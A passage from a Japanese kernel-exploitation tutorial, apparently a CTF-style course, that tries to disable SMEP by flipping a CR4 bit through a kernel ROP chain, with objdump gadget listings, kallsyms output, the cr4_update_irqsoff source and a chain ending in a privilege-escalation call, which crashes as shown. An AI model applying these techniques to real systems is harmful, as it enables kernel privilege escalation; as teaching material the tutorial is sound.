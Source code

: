### SMEPの無効化？
ここまででkROPにより権限昇格できることが確認できましたが、実は別の方法を考えてみましょう。
[セキュリティ機構](../introduction/security#smep-supervisor-mode-execution-prevention)の節で説明したように、SMEPはCR4レジスタで制御されています。したがって、ROPでCR4レジスタの21ビット目をフリップできればSMEPが無効化され、ret2userが使えるようになるはずです。

問題はそのようなROP gadgetが存在するかです。CR4に対する即値の演算はできないので、別の汎用レジスタ経由で操作することになります。CR4を操作するコードはカーネル中に存在するので、そのようなgadgetは必ずありますが、副作用なくretで終わるものがあるかはobjdumpで探す必要があります。（多くのツールはCRレジスタに対する操作を正しく見つけてくれない上、このような処理の後にはjmpが続くことが多いです。）
例えば次のようにCR4を設定するgadgetは存在します。
```
ffffffff810284d5:       0f 22 e7                mov    cr4,rdi
ffffffff810284d8:       8b 05 4a 2f d4 00       mov    eax,DWORD PTR [rip+0xd42f4a]        # 0xffffffff81d6b428
ffffffff810284de:       85 c0                   test   eax,eax
ffffffff810284e0:       7e ea                   jle    0xffffffff810284cc
...
ffffffff810284cc:       c3                      ret
```

```
ffffffff81028535:       8b 05 ed 2e d4 00       mov    eax,DWORD PTR [rip+0xd42eed]        # 0xffffffff81d6b428
ffffffff8102853b:       85 c0                   test   eax,eax
ffffffff8102853d:       7f a5                   jg     0xffffffff810284e4
ffffffff8102853f:       c3                      ret
```
すぐさまretで終わるようなgadgetは見つからないので、これらのgadgetがどこから来たものか確認しましょう。kallsymsから近いアドレスにある関数を見つけます。
```
/ # cat /proc/kallsyms | grep ffffffff810285
ffffffff81028540 T native_write_cr4
ffffffff810285b0 T cr4_init
/ # cat /proc/kallsyms | grep ffffffff810284
ffffffff81028440 t default_init
ffffffff810284b0 T cr4_update_irqsoff
```
それぞれ[`cr4_init`](https://elixir.bootlin.com/linux/v5.10.7/source/arch/x86/kernel/cpu/common.c#L420)、[`cr4_update_irqsoff`](https://elixir.bootlin.com/linux/v5.10.7/source/arch/x86/kernel/cpu/common.c#L399)という関数から来ています。
特に`cr4_update_irqsoff`という関数は使えそうな見た目をしています。
```c
void cr4_update_irqsoff(unsigned long set, unsigned long clear)
{
	unsigned long newval, cr4 = this_cpu_read(cpu_tlbstate.cr4);

	lockdep_assert_irqs_disabled();

	newval = (cr4 & ~clear) | set;
	if (newval != cr4) {
		this_cpu_write(cpu_tlbstate.cr4, newval);
		__write_cr4(newval);
	}
}
EXPORT_SYMBOL(cr4_update_irqsoff);
```
CR4中で1に更新するビットと0に更新するビットを引数で操作できます。
そこで次のようなROP chianを実行してみます。
```c
  *chain++ = rop_pop_rdi;
  *chain++ = 0; // bit to set
  *chain++ = rop_pop_rsi;
  *chain++ = 1 << 20; // bit to clear
  *chain++ = cr4_update_irqsoff;
  *chain++ = (unsigned long)&escalate_privilege;
```
これを実行すると、やはり`escalate_privilege`実行時にSMEPでクラッシュしてしまいます。直前でCR4の値を確認すると、SMEPのビットが有効になっていることが分かります。なぜCR4が更新できていないのかステップ実行で確認しましょう。